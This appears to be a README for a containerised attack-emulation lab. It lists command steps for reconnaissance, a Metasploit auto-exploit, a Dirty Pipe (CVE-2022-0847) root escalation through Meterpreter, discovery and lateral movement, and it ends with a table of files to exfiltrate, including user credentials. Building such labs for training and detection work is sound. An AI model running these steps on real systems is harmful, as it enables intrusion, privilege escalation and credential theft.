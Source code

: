 # Recon
```bash
#Reconnaissance
#copy recon.sh into k1
docker cp /vagrant/Attacks/Recon/recon.sh k1:/
docker exec k1 chmod +x recon.sh
#Run the script
docker exec k1 ./recon.sh
```

# Execution
```bash
# Execution
cd /vagrant/Attacks/Execution
# copy exploit to metasploit framework directory
docker cp 50531.rb k1:/usr/share/metasploit-framework/modules/exploits/linux/
# run msfconsole with the resource script to auto exploit with the set configurations
docker exec -t k1 msfconsole -r MsfAutoExploit.rc
```

# Privilege Escalation
```bash
# All commands shall be executed inside the Meterpreter session established in Execution phase
# Upload dirtypipe.sh and CVE-2022-0847.c to /tmp directory
# Both files are located in / directory of Kali container
upload dirtypipe.sh /tmp
upload CVE-2022-0847.c /tmp

# Execute dirtypipe.sh to get root shell
execute -f ./tmp/dirtypipe.sh -i -H
```

# Discovery
```bash
cd /vagrant/Attacks/Discovery
# Setup discovery in vagrant host
./discovery_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./discovery.sh # Run this in s1 root shell --> script is located in root / dir
```

# Lateral Movement
```bash
cd /vagrant/Attacks/Lateral_Movement
./lateral_movement_setup.sh

# During this stage, attacker should have root in S1
docker exec -it s1 bash
./lateral_movement.sh # Run this in s1 root shell --> script is located in root / dir
```

# Exfiltration
```bash


```

Files to be exfiltrated in S1:

| s/n | Filename            | Machine |
| --- | ------------------- | ------- |
| 1   | /networkenum.txt    | s1      |
| 2   | /ips_sorted.txt     | s1      |
| 3   | /traceroute.txt     | s1      |
| 4   | /internal_host_scan | s1      |
| 5   | /users.txt          | s1      |
| 6   | /db_users.txt       | s1      |
| 7   | /user_creds.txt     | s1      |
| 8   | /ps_aux.txt         | s1      |
| 9   | /local_groups.txt   | s1      |
| 10  | /sysenum.txt        | s1      | 
